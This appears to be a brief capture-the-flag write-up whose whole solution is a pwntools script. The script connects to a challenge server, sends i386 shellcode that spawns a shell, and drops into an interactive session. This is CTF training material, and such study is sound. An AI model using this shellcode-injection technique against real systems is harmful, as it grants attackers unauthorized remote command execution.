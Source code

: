 # Solution

1. Need to do some form of socket programming. Following code requires pwntools to be installed:
```py
from pwn import *

context.update(arch='i386',os='linux')

server_ip = "pointer.sparkctf.org" #change this to the server IP address hosting the binary.
con = remote(server_ip,6067)
data = asm(shellcraft.sh())
con.sendline(data)

con.interactive()
```